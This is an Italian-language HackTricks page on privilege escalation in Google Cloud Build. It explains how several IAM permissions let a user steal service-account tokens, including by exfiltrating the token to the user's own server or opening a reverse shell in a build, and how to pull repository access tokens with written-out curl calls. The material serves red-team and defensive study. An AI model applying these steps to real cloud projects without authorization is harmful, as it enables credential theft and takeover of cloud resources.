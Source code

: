 # GCP - Cloudbuild Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudbuild

Per ulteriori informazioni su Cloud Build controlla:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

Con questo permesso puoi **inviare una build cloud**. La macchina cloudbuild avrà nel suo filesystem per **default un token dell'Account di Servizio cloudbuild**: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Tuttavia, puoi **indicare qualsiasi account di servizio all'interno del progetto** nella configurazione di cloudbuild.\
Pertanto, puoi semplicemente far esfiltrare alla macchina il token verso il tuo server o **ottenere una reverse shell all'interno di essa e recuperare il token** (il file contenente il token potrebbe cambiare).

Puoi trovare lo script di exploit originale [**qui su GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) (ma la posizione da cui prende il token non ha funzionato per me). Pertanto, controlla uno script per automatizzare la [**creazione, sfruttamento e pulizia di un ambiente vulnerabile qui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) e uno script python per ottenere una reverse shell all'interno della macchina cloudbuild e [**rubare il token qui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (nel codice puoi trovare come specificare altri account di servizio)**.**

Per una spiegazione più approfondita, visita [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**Potenzialmente** con questo permesso sarai in grado di **aggiornare una build cloud e semplicemente rubare il token dell'account di servizio** come è stato fatto con il permesso precedente (ma sfortunatamente al momento della scrittura non sono riuscito a trovare alcun modo per chiamare quell'API).

TODO

### `cloudbuild.repositories.accessReadToken`

Con questo permesso l'utente può ottenere il **token di accesso in lettura** utilizzato per accedere al repository:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

Con questo permesso, l'utente può ottenere il **token di accesso in lettura e scrittura** utilizzato per accedere al repository:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

Con questo permesso puoi **ottenere i repo a cui la connessione ha accesso:**

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
